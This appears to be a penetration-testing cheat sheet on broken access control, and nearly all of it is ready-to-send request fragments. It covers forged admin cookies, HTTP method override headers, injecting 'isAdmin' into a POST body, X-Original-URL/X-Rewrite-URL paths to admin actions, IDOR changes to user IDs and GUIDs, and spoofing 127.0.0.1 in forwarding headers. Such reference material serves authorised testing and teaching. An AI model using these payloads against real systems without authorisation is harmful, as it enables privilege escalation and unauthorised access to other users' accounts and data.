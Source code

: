 ```yaml
---
title: Broken Access Control Examples
desc: Examples of Broken Access Controls. Bypass 401, 403 responses.
tags: [AccessControl, API, IDOR, PrivEsc, Web]
alts: [IDORExamples]
website: 
render_with_liquid: false
---
```


## Change Cookie Values

```sh
Cookie: isAdmin=true
Cookie: access=1
Cookie: access=true
```

<br />

## Change Request Methods

```sh
GET, POST, PUT, DELETE, HEAD, TRACE, OPTIONS, PATCH, INVENTED, CONNECT, etc.

# Override to bypass FireWall (via POST /example HTTP/1.1)
X-Method-Override: PUT
X-HTTP-Method-Override: PUT
```

<br />

## Change POST Body

```
POST / HTTP/1.1
...

{
    "email": "new-email@example.com",
    "isAdmin": true
}
```

<br />

## Add X-Original-URL, X-Rewrite-URL

```sh
POST / HTTP/1.1

...
X-Original-URL: /admin/deleteuser
# or
X-Rewrite-URL: /admin/deleteuser
...

username=michael
```

<br />

## Change User ID

```
https://vulnerable.com/account?id=michael
https://vulnerable.com/account?id=admin
https://vulnerable.com/account?id=administrator
```

<br />

## Change GUID

GUID cannot be guessed but it may be found somewhere in the website.

```
https://vulnerable.com/account?id=7230b2a9-60de-4409-a350-cd14986a8d3e
https://vulnerable.com/account?id=1de655cb-29d7-4008-b434-e688b39f9564
```

<br />

## IP Spoofing & Fuzzing in Request Header

```sh
Cluster-Client-IP: 127.0.0.1
Forwarded-For: 127.0.0.1
X-Forwarded: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Original-URL: 127.0.0.1
X-Originating-IP: 127.0.0.1
X-ProxyUser-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Remote-IP: 127.0.0.1

Host: 127.0.0.1
```